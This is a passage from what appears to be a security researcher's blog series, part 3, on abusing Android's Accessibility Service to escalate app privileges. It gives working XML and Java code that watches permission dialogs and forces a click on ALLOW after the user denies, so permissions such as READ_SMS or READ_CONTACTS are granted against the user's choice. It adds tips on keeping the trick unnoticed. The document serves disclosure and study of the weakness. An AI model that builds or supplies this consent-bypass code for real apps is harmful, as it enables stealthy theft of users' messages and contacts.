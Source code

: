 ## About Android Accessibility Service - Part 3

### [~$ cd ..](../)

### ~$ ls

* [How_an_Android_app_could_escalate_its_privileges.txt](./index)
* [How_an_Android_app_could_escalate_its_privileges_Part2.txt](./part2)
* How_an_Android_app_could_escalate_its_privileges_Part3.txt
* [How_an_Android_app_could_escalate_its_privileges_Part4.txt](./part4)

### ~$ cat How_an_Android_app_could_escalate_its_privileges_Part3.txt

For this part, I changed the way the app obtains more permissions, making it stealthier. The trick here is to explicitly ask for at least two permissions, let the user
choose for the first one, and force the click on the second one. If the device is fast enough, we cannot really see that a second window has spawned and has been immediately closed.

The only suspicious thing is that popups are numbered, and the user will only see clearly the first one, if there are only two. Actually, I tried with three permissions, but on my slow
emulator, only the second one was "skipped", which is clearly suspicious.

### Configuration

The Manifest remains the same, I still ask for **READ_SMS** and **READ_CONTACTS**. However, the configuration file is modified, because we don't need to listen
for events coming from our app or Settings, and we try to catch `click` events. Furthermore, I added the flag `flagReportViewIds`:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeViewClicked"
>	android:packageNames="com.google.android.packageinstaller"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"
>	android:accessibilityFlags="flagReportViewIds"/>  
> ```

### Main activity

In the main activity, as usual, we try to detect if accessibility service is enabled. In this example, we only have to call `ActivityCompat.requestPermissions`
( `setContentView` doesn't need to be in the `else` statement actually)

> ```java
>@Override
>protected void onCreate(Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	String[] perms = getRequestedPermissions(this);
>	if (perms != null && perms.length != 0 && isAccessibilityServiceOn())
>		ActivityCompat.requestPermissions(this, perms, 1);
>	else
>		setContentView(R.layout.activity_main);
>}
> ```

and `getRequestedPermissions` returns permissions asked in the Manifest:

> ```java
>private String[] getRequestedPermissions(){
>	PackageInfo info = null;
>	try {
>		info = getPackageManager().getPackageInfo(getPackageName(), PackageManager.GET_PERMISSIONS);
>	} catch (PackageManager.NameNotFoundException e) {
>		e.printStackTrace();
>	}
>	return info == null ? null : info.requestedPermissions;
>}
> ```

Then, the routine `ActivityCompat.requestPermissions(this, perms, 1)` will show one popup for each permission (that's the reason why they are numbered). The first parameter
is the asking activity (this one), and the last integer is an identifier, useless here since we don't use `onRequestPermissionsResult`. 

### The accessibility service

Once again, the code is simpler, because we don't need to browse through settings and click on certain items. The idea is very simple: for each permission,
the package manager will display a dialog box, with a short message, a picture, and two buttons: **ALLOW** and **DENY**. We try to capture the click on one of these two
buttons, and force the click on **ALLOW**. Then, this click will affect the next popup, and the next permission will be granted. Since we cannot ensure that the language
of the device is English, we use views' identifiers to know where to click, and which widget has been clicked.

The two interesting widgets have these ids:

> ```java
>private static final String DENY_BUTTON = "com.android.packageinstaller:id/permission_deny_button";
>private static final String ALLOW_BUTTON = "com.android.packageinstaller:id/permission_allow_button"; 
> ```

_That is the reason why I used the flag `flagReportViewIds`._

In `onAccessibilityEvent`, we don't need to filter, since there is only one registered type of event on one app. Once again, the view is recursively scanned,
and `true` is returned if the button has been clicked:

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	parseView(accessibilityEvent.getSource());
>}
>
>private boolean parseView(AccessibilityNodeInfo node){
>	if (node == null)
>		return false;
>	node.refresh();
>	for(int i = 0; i< node.getChildCount(); i++){
>		if (parseView(node.getChild(i)))
>			return true;
>	}
>	if (node.getText() != null){
>		if (getRootInActiveWindow() != null && node.getViewIdResourceName() != null &&
>			(node.getViewIdResourceName().equalsIgnoreCase(DENY_BUTTON) || node.getViewIdResourceName().equalsIgnoreCase(ALLOW_BUTTON))){
>				
>			List<AccessibilityNodeInfo> allow = getRootInActiveWindow().findAccessibilityNodeInfosByViewId(ALLOW_BUTTON);
>			if (allow != null && allow.size() != 0) {
>				allow.get(0).performAction(AccessibilityNodeInfo.ACTION_CLICK);
>			}
>		}
>	}
>	return false;
>}
> ``` 

**NOTE**: the line `node.refresh()` is required, see [here](https://stackoverflow.com/questions/36793154/accessibilityservice-not-returning-view-ids)

### So what ?

In the video, you can see that **READ_CONTACTS** has been granted, whereas **READ_SMS** has been explicitly denied by the user. Since my emulator is really slow,
we can see that a second window has spawned with the second permission. The idea is then to put first in the Manifest a "useless" permission, and the expected one.

Two things are quite interesting in this example:
* we don't care about the language of the device
* if the user doesn't pay attention to the message "1 of xxx" in the dialog box, and if the device is not too slow, the second window could be unnoticed. In the
previous examples, it was clearly visible that the app was trying to do bad things, because it was not fast enough. Here, we let the user decide, and it makes a
real difference.

Video:

[![video3_poc](video3.png)](https://youtu.be/vs057e_NE9U)

